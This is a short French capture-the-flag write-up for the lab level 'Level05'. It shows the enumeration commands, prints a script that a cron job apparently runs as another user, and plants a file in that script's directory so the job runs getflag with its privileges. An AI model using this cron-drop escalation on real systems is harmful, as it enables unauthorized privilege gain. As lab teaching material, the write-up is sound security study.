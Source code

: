 # Level05

Premiere étape de recherche

	$ ls -la
	(nothing)

	$ find / -user level05 2> /dev/null | grep -v proc
	(nothing)

	$ find / -user flag05 2> /dev/null | grep -v proc
	/usr/sbin/openarenaserver
	/rofs/usr/sbin/openarenaserver

	$ ls -l /usr/sbin/openarenaserver; ls -l /rofs/usr/sbin/openarenaserver
	-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
	-rwxr-x--- 1 flag05 flag05 94 Mar  5  2016 /rofs/usr/sbin/openarenaserver

Nous n'avons pas les droits de base mais une ACL sur le premier fichier étend ses droits unix. Nous pouvons donc le lire

```shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le script execute tous les fichiers qui sont dans /opt/openarenaserver/ puis les supprime

	$ echo "getflag" > /opt/openarenaserver/script.sh

	$ /usr/sbin/openarenaserver
	bash: /usr/sbin/openarenaserver: Permission denied

On ne peut pas executer le script nous meme, il y a surement un cron qui le fait regulierement

	$ ls /opt/openarenaserver/
	(nothing)

Confirmation, le script n'y est plus

On va le modifier pour qu'il écrive le résultat dans un fichier

	$ echo "getflag > /tmp/flagg" > /opt/openarenaserver/script.sh

On attends

	$ cat /tmp/flagg
	Check flag.Here is your token : XXXXXXXXXXXXXXXXXXX

